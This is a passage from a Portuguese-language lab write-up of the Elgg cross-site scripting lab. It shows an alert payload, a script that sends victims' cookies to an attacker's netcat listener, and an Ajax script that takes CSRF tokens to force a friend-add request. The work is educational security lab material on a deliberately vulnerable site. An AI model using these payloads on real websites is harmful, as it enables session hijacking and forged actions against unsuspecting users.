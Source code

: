 ```html
<script> alert(document.cookie)</script>
```

O resultado pode ser visto abaixo:

![Laborato%CC%81rio%201%20-%20Cross-Site%20Scripting%20Attack/print5.png](Laborato%CC%81rio%201%20-%20Cross-Site%20Scripting%20Attack/print5.png)

### Tarefa 3 – Pegar os cookies da máquina da vítima

O objetivo agora é “roubar” os cookies do usuário. Para isso, ao acessar o perfil malicioso deve ser feita uma requisição HTTP do tipo GET para o servidor do atacante, passando como parâmetro de rota os cookies do usuário. Portanto, no perfil samy foi inserido o seguinte script:

```html
<script>document.write('<img src=http://127.0.0.1:5555?c='
+escape(document.cookie) + ' >');
</script>
```

A partir disto iniciamos um servidor TCP  na porta 5555 com o programa **netcat** a partir da seguinte linha de comando: `nc -l 5555 -v`. A partir daí, quando uma vitima entra no perfil de Samy, a requisição é gerada e seus cookies são enviados para a máquina do atacante como mostra a imagem a seguir:

![Laborato%CC%81rio%201%20-%20Cross-Site%20Scripting%20Attack/print6.png](Laborato%CC%81rio%201%20-%20Cross-Site%20Scripting%20Attack/print6.png)

### Tarefa 4 – Adicionar vítima ao entrar no perfil malicioso

Quando clicamos em adicionar um usuário, Samy por exemplo, a requisição GET enviada ao servidor é a seguinte:

[http://www.xsslabelgg.com/action/friends/add?friend=47&__elgg_ts=1616699615&__elgg_token=5oSmw9dk8t1KQLtBva99iw&__elgg_ts=1616699615&__elgg_token=5oSmw9dk8t1KQLtBva99iw](http://www.xsslabelgg.com/action/friends/add?friend=47&__elgg_ts=1616699615&__elgg_token=5oSmw9dk8t1KQLtBva99iw&__elgg_ts=1616699615&__elgg_token=5oSmw9dk8t1KQLtBva99iw)

O código disponibilizado pelo guia do laboratório apresenta um campo para a inserção da URL que será utilizada para gerar a requisição GET, e deve seguir o padrão citado acima. Primeiro deve-se inserir a URL contendo o Id do usuário a ser adicionado, seguida das variáveis token e ts, que são utilizadas como contra medida em ataques CSRF. 

O script inserido no perfil de Samy, na aba *About me*, ficou assim:

```jsx
<script type="text/javascript">
	window.onload = function () {
	var Ajax=null;
	var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; //1
	var token="&__elgg_token="+elgg.security.token.__elgg_token; //2
	
	//Construct the HTTP request to add Samy as a friend
	var sendurl="http://www.xsslabelgg.com/action/friends/add?friend=47" + token + ts;  //FILL IN
	
	//Create and send Ajax request to add friend
	Ajax=new XMLHttpRequest();
	Ajax.open("GET",sendurl,true);
	Ajax.setRequestHeader("Host","www.xsslabelgg.com");
	Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
	Ajax.send();
}
</script>
```

